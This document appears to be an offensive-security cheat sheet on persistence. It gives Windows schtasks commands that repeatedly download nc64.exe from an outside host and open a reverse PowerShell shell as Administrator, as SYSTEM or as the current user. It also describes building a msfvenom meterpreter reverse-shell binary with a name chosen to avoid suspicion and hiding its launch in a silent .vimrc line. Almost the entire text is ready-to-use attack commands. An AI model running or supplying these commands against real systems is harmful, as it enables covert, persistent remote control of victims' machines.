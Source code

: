 ## Tool: Scheduled Tasks (Windows)

To create a scheduled task that runs every 3 minutes, as Administrator, downloads nc64.exe and sends a reverse shell (PowerShell x64) from the target machine

```powershell
schtasks /create /ru "Administrator" /rp "password" /tn "Payback1" /sc minute /mo 3 /tr "powershell.exe -c wget http://192.168.14.10/nc64.exe -o C:\users\Public\nc64.exe;C:\Users\Public\nc64.exe 192.168.14.10 8080 -e C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
```

To create a scheduled task that runs every 3 minutes, as NT Authority/SYSTEM, downloads nc64.exe and sends a reverse shell (PowerShell x64) from the target machine

```powershell
schtasks /create /ru "NT Authority\SYSTEM" /tn "Payback1" /sc minute /mo 3 /tr "powershell.exe -c wget http://192.168.14.10/nc64.exe -o C:\users\Public\nc64.exe;C:\Users\Public\nc64.exe 192.168.14.10 8080 -e C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
```

To create a scheduled task that runs every 3 minutes, as current user, downloads nc64.exe and sends a reverse shell (PowerShell x64) from the target machine

```powershell
schtasks /create /tn "Payback1" /sc minute /mo 3 /tr "powershell.exe -c wget http://192.168.14.10/nc64.exe -o C:\users\Public\nc64.exe;C:\Users\Public\nc64.exe 192.168.14.10 8080 -e C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
```
## Tool: Vim (Linux)

The following works when a local user can run vim as sudo:

- Create a meterpreter payload in ELF format. Choose the name that doesn't raise suspicion:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.0.188 LPORT=4444 -f elf > .vim_rc
```
- Upload it to the target machine (/home/<username> should be ideal)
- Add the following line in .vimrc file (if it does not exist, create one). This is a vim configuration file and loads everytime vim / vi is started.

```bash
:silent !/home/ptlabmachine/.vim_rc &
```  
- The above command will run ```.vim_rc``` file in silent mode as a job in the background. This is necessary to eliminate all user interruptions while executing the reverse shell code.  
